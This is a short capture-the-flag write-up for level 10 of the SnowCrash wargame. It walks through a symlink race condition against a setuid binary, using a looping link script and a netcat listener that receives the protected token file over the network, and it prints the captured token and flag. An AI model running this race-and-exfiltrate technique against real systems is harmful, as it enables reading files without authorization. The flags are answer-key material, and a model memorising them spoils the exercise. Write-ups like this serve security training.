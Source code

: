 # Level 10

## step 1 : analyze level10

## step 2 : find host
```
$ ifconfig
...
192.168.56.1
...
```
conversion:
192 * 2^24 + 168  * 2^16 + 56 * 2^8 + 1 = 3232249857

## step 3 : run the server and a client to receive messages
```
$ gcc mini_serv ; ./a.out 6969
$ nc 192.168.56.1 6969
```

## step 4 : pass right barrage of level08
run link.sh in SnowCrash
*this script links token and another random file has /tmp/link in loop to pass right barrage of level08*
```
$ sh link.sh
```

## step 4 : catch the token
while it's not token that is executed run :
```
$ ./level10 /tmp/link 192.168.56.1
```
token : woupa2yuojeeaaed06riuj63c

## step 5 :  get level11 password
```
$ su flag10
$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
